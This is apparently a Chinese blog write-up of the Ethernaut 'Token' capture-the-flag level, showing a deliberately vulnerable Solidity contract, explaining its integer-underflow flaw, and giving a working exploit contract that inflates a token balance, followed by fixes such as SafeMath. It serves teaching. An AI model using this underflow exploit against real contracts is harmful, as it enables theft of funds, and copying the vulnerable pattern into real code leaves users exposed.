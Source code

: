 title: 5. Token
date: 2022-10-26 10:19:43
updated: 2022-10-26 10:19:43
tags:
- ethernaut
categories: Web3
---

**Chain**: Goerli
**Difficulty**: ●●○○○
**Level**: https://ethernaut.openzeppelin.com/level/0xDc0c34CFE029b190Fc4A6eD5219BF809F04E57A3

### 要求

这一关的目标是攻破下面这个基础 token 合约
你最开始有20个 token，如果你通过某种方法可以增加你手中的 token 数量，你就可以通过这一关，当然越多越好。
这可能有帮助:
什么是 odometer?

### 分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

我们可以看到 `transfer` 函数的require 检查代码：

`require(balances[msg.sender] - _value >= 0);` 

由于 `balances[msg.sender]` 和 `_value` 都是 `uint` 类型，`balances[msg.sender] - _value` 的结果也是 `uint` ，作为无符号整数永远是大于等于 0 的，导致我们可以任意取款。正确的写法是 `require(balances[msg.sender] >= _value)` 。

找到入侵点后，接下来再分析数据。

当前token数：

- totalSupply: 21000000
- player: 20
- level: 20999980

题目中提到数量越多越好，`balances` 的类型是 `uint` ，最大值为`2**256 -1`，因此我们需要将value 变为最大值即可。

### 解题

1. 首先打开Console，获取当前关卡合约实例地址 `instance`；
2. 打开 [Remix IDE](https://remix.ethereum.org/)，创建文件 `5_Token.sol`，粘贴以下代码：
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;
    
    interface IToken {
        function transfer(address _to, uint256 _value) external returns (bool);
    }
    
    contract HackToken {
        address levelInstance;
    
        constructor(address _levelInstance) {
            levelInstance = _levelInstance;
        }
    
        function claim() public {
            IToken(levelInstance).transfer(msg.sender, type(uint256).max - 20);
        }
    }
    ```
    
    其中`value`的值为 `type(uint256).max - 20` 。
    
3. 在constructor 填入当前关卡合约实例地址后部署。
4. 再调用 `claim` 函数，完成关卡。

### 后记

EVM 的整数有 `int` 和 `uint` 两种，对应有无符号的情况。在 `int` 或 `uint` 后可以跟随一个 8 的倍数，表示该整数的位数，如 8 位的 `uint8`。位数上限为 256 位，`int` 和 `uint` 分别是 `int256` 和 `uint256` 的别名，一般 `uint` 使用的更多。

在整数超出位数的上限或下限时，就会静默地进行取模操作。通常我们希望费用向上溢出变小，或者存款向下溢出变大。整数溢出漏洞可以使用 SafeMath 库来防御，当发生溢出时会回滚交易。

Overflow 在 solidity 中非常常见, 你必须小心检查, 比如下面这样:

```solidity
if(a + c > a) {
  a = a + c;
}
```

另一个简单的方法是使用 OpenZeppelin 的 SafeMath 库, 它会自动检查所有数学运算的溢出, 可以像这样使用:

```solidity
a = a.add(c);

```

如果有溢出，代码会自动恢复。